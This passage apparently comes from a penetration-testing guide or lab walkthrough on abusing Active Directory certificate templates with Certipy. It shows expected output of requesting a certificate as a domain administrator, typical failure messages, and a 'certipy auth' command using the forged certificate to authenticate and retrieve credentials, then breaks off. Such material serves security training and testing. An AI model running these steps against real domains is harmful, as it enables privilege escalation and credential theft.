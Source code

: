 **Expected Output (Success):**

```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 123
[*] Got certificate with UPN 'administrator@corp.local'
[*] Certificate object SID is 'S-1-5-21-...-500'
[*] Saved certificate and private key to 'administrator.pfx'
```

✅ **Critical indicators of success:**
- `Got certificate with UPN 'administrator@corp.local'` ← Cert is for admin!
- `Saved certificate... to 'administrator.pfx'` ← File created

---

**Expected Output (Failure):**

**Failure 1: Can't specify SAN**
```
[-] Got error: The request does not support the required extensions
```
**Reason:** Template doesn't actually allow SAN (enum was wrong)

**Failure 2: Access Denied**
```
[-] Got error: access denied
```
**Reason:** You don't have enrollment rights (enum was wrong or permissions changed)

**Failure 3: Manager Approval Required**
```
[!] Certificate request is pending approval
```
**Reason:** Template requires manager approval (not auto-issued)  
**Impact:** Attack fails (can't proceed without approval)

---

#### Phase 3: Authenticate with Certificate

**Goal:** Use obtained certificate to authenticate as administrator and retrieve credentials

```bash
certipy auth -pfx administrator.pfx -dc-ip 192.168.1.10
```

**Command Breakdown:**
- `auth` = Authenticate using certificate
- `-pfx` = Certificate file (from previous step)
- `-dc-ip` = Domain Controller IP

---

**Expected Output (Success):**
